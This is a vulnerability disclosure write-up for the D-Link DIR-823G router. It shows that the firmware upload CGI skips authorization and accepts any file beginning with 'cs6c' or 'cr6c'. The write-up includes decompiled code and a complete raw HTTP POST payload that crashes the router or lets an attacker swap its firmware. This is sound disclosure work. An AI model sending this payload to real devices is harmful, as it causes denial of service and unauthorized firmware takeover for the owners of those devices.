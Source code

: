 # DIR-823G-Update the firmware without authorization verification. #

DIR-823G
Upload firmware without review authority, put the router in a high-risk state or deny service.
## Vulnerable Firmware Versions ##
**DIR-823G REVA1 1.02B05(Lastest)** 

## Analysis ##
Found `<form class="clearboth" style="position:relative" action="/cgi-bin/upload_firmware.cgi" method="post" id="upload_form" enctype="multipart/form-data ">` in **/web_mtn/FirmwareUpdate.html**.

So,uploading firmware update files should be processed by **/cgi-bin/upload_firmware.cgi**.

Try to upload a firmware file and intercept it with Burp Suite.

![burp_1.png](https://i.loli.net/2020/09/06/NwnB8sODLhYfxdr.png)

In upload_firmware.cgi:

    
      __src = (char *)FUN_00400eb4(__filename);
      iVar2 = strncmp(__src,"SUCCESS",7);
      if (iVar2 == 0) {
    printf(
       "window.setTimeout(\"location.href=\'http://%s/FirmwareUpdate.html?UpdateResult=%s\'\",0);"
       ,&local_4f8,"SUCCESS");
	}

In FUN_00400eb4:

    iVar3 = memcmp((void *)((int)__buf + __fd),&DAT_00401640,4);
      if ((iVar3 == 0) ||
     (__fd = memcmp((void *)((int)__buf + __fd),&DAT_00401648,4), __fd == 0)) {
    free(__buf);
    pcVar1 = "SUCCESS";
      }

    //LOAD:00401640 aCs6c:  .ascii "cs6c"
    //LOAD:00401648 aCr6c:  .ascii "cr6c"

It seems that there is no authorization verification, only the first four data that need to be submitted are cs6c/cr6c.

![burp_2.png](https://i.loli.net/2020/09/06/u75SmxaP9WHXfwj.png)

> ubuntu@ubuntu:~$ nmap 192.168.0.1
> 
> Starting Nmap 7.01 ( https://nmap.org ) at 2020-09-05 22:36 PDT
> Nmap scan report for 192.168.0.1
> Host is up (0.16s latency).
> All 1000 scanned ports on 192.168.0.1 are closed
> 
> Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds

Successfully make the router stop working.

    
## Payload & Exploitation##
    POST /cgi-bin/upload_firmware.cgi HTTP/1.1
    Host: 192.168.0.1
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=---------------------------28278418346116865854153533320
    Content-Length: 213
    Origin: http://192.168.0.1
    Connection: close
    Referer: http://192.168.0.1/FirmwareUpdate.html
    Upgrade-Insecure-Requests: 1
    -----------------------------28278418346116865854153533320
    Content-Disposition: form-data; name="uploadConfigFile"; filename="DIR823G_V1.0.2B05_20181207.bin"
    Content-Type: application/octet-stream
    cr6c crash!

An attacker can update the firmware or make the router stop working without permission.It may even make the router completely unusable.
